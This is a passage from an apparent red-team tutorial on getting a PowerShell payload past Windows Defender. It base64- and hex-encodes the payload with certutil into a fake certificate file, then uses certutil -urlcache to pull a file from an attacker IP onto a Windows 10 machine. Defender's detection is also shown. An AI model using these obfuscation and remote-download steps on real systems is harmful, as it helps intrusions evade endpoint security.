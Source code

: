There are methods to go “fileless”, [executing commands in memory pulled from the web](https://www.sans.org/summit-archives/file/summit-archive-1524493093.pdf), stored as objects, etc but in this example I’ll stick to a basic powershell reverse shell one-liner.

**PowerShell blues**

It’s fairly common for attackers and attacking frameworks to encode payloads with base64 in order to obfuscate itself from intrusion detection. As many know, PowerShell can encode, decode or execute an encoded command. This vector has become much more prevalent and [companies are picking up on ways to mitigate this threat](https://www.fireeye.com/blog/threat-research/2018/07/malicious-powershell-detection-via-machine-learning.html)

### Certutil.exe <a id="certutilexe"></a>

Certutil is a great little binary that can download remote files, create certificates, or encode files. Not only can this built-in exe encode a file to base64, it can also encode into hex. When encoding to b64, it includes the certificate header and footer, which one may find convincing.

```text
-----BEGIN CERTIFICATE-----
B64 Encoded Junk that looks 
like a real certificate.
-----END CERTIFICATE-----
```

When decoding with certutil, it will remove the header and footer, providing you with the original file. Now, to obfuscate we’ll encode the payload locally \(on attacking machine\) through certutil as base64. Then again through hex and once again through base64.

```text
certutil -encode payload.txt vpn.crt
certutil -f -encodehex vpn.crt vpn.crt
certutil -f -encode vpn.crt vpn.crt 
```

This should give us a nice bogus looking “certificate.” It’s also worth noting I attempted to use **assoc.exe** to allow .crt to execute as PowerShell without luck. Would be nice if PowerShell could execute the encoded “certificate” .crt file.

Now that the encoded PowerShell payload is set on our machine, we’ll need to move it over to CALVIN. It’s worth noting, CALVIN is running Windows 10 with the latest updates from Windows Defender.

Using certutil we can test the waters by remotely downloading a simple file on CALVIN from the attackers IP.

```text
C:\>certutil –urlcache –split –f http://192.168.1.11/index.html index.html
```

#### Busted! <a id="busted"></a>

After executing, **Windows Defender catches this** as malicious activity. Trying a few other extensions also fail, of course.

```bash
Trojan:Win32/Ceprolad.A

Aler level: Severe
Status: Active

CmdLine:\Device\HarddiskVolume2\Windows\System32\certutil.exe certu
–urlcache –split –f http://192.168.1.11/index.html
```
